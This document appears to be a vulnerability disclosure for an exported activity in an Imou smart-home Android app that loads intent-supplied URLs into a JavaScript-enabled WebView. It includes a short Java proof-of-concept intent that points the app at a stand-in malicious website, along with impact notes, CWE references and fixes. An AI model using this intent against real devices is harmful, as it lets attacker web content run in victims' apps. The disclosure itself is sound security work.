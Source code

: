 ## Vulnerability Report 

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`.

A remote attacker can execute arbitrary code via insecure intent handling.


### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The com.mm.android.easy4ip.MainActivity activity within the com.mm.android.smartlifeiot app blindly loads URLs provided through intent data. 

A malicious third-party app can exploit this oversight to trigger the loading of malicious web content, initiating unauthorized JavaScript web browser mining operations or remote code execution within the WebView.

### Proof of Concept:

 ![image](https://github.com/actuator/imou/blob/main/pocGIF.gif)
 
A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:


Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);


Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
**this.url = getIntent().getExtras().getString("url");**


2. JavaScript execution is enabled in the WebView:

**this.webView.getSettings().setJavaScriptEnabled(true);**

3. Direct web content loading with the fetched URL:

**progressWebView.loadUrl(str);**


### Impact:

An attacker can exploit this vulnerability to:

Execute arbitrary JavaScript within the app's context, leading to remote code execution.

Start unauthorized web browser mining operations, consuming device resources and potentially earning cryptocurrency for the attacker.

Access the internet from a victim's device without necessary permissions in the malicious app's manifest.

### MITRE CWE References:

- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)



 
